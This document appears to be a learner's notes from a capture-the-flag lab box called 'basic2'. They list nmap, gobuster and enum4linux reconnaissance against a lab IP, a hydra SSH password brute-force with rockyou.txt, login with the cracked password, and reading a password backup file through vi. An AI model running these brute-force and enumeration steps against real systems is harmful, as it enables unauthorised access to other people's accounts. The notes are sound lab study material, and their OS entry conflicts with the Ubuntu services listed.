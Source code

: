 IP		
	
	10.10.141.243

commands
	
	nmap -A -T4 -Pn -oN initial_scan.txt 10.10.141.243
		to search for open ports		

	gobuster dir -u http://10.10.141.243 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
		looking for internal assets		->		/development

	enum4linux -a 10.10.141.243
		search for users in server files and logs		->		jan, kay

	hydra -t 4 -l jan -P ~/Desktop/rockyou.txt ssh://10.10.141.243
		brute-force the passwd for user named 'jan'		->		armando

	ssh jan@10.10.141.243
		use the 'armando' passsword to login into machine as user 'jan'

	--> after logging in, found private key for user 'kay' in ' /home/kay/.ssh/is_rsa '
		couldn't extract private key out of the machine to local system :(

		But then i say a comment under a write-up.
		it said " 'pass.bak' is visible to 'vi' but permittion denied to 'cat' "
		so thats it, it tried and vollah! final password found
		
	vi pass.bak
			heresareallystrongpasswordthatfollowsthepasswordpolicy$$


users
	
	jan
	kay

open ports 
	
	22		ssh
	80		http
	139	    samba smbd
	445		samba smbd	  4.3.11-Ubuntu
	8009	ajp13?

OS 
	
	windows 6.1

computer name 
	
	basic2
